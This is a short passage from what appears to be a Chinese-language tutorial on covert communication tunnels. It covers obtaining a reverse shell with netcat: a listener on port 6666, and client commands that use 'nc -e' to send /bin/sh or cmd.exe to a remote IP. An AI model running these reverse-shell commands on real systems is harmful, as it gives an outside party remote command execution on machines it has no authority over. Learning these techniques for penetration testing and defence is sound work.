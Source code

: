 （9）获取反向shell

在服务端监听本地6666端口：

```
nc -lvp 6666
```

![](./img/隐藏通信隧道基础知识/39.png)

在客户端连接服务端的6666端口，并反弹shell：

```
linux:
nc 192.168.2.12[服务端ip] 6666 -e /bin/sh
windows:
nc 192.168.2.12[服务端ip] 6666 -e c:\windows\system32\cmd.exe
```
